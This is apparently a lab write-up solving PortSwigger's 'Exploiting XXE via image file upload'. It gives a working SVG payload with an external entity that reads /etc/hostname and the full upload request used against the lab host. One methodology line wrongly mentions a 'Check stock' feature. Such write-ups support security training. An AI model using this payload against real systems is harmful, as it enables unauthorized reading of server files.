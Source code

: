 ## Exploiting XXE via image file upload

**Title:** Exploiting XXE via image file upload. [Go](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) 

**Description:** This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files. To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 
 
## Preface


**XXE attacks via file upload**

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

**XXE attacks via modified content type**

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML. For example, if a normal request contains the following:

``` HTTP
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:

``` HTTP
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in Check stock functionality.

### My Thought

We created a text file then saved this XML code and changed its extension to `.svg`.

``` XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
Then we posted a comment on a blog post and uploaded this image as an avatar. When we viewed our comment, we should see the contents of the `/etc/hostname` file in our image. We submitted the value of the server hostname and solved the lab.

**Request**

``` HTTP
POST /post/comment HTTP/2
Host: 0a0a0035040272d880d849aa005f007f.web-security-academy.net
Cookie: session=ZzsySAkz3PAbkKtvb5djxt7eWqPteQgP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------396565772112584950671156885671
Content-Length: 1238
Origin: https://0a0a0035040272d880d849aa005f007f.web-security-academy.net
Referer: https://0a0a0035040272d880d849aa005f007f.web-security-academy.net/post?postId=4
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="csrf"

OoDvRnfYUHFWNrPFxxrTrsO065EzrxxX
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="postId"

4
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="comment"

neogeo
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="name"

neogeo
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="avatar"; filename="pacman.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="email"

neogeo@neogeo.com
-----------------------------396565772112584950671156885671
Content-Disposition: form-data; name="website"

-----------------------------396565772112584950671156885671--
```

**Response**
``` HTTP
HTTP/2 302 Found
Location: /post/comment/confirmation?postId=4
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
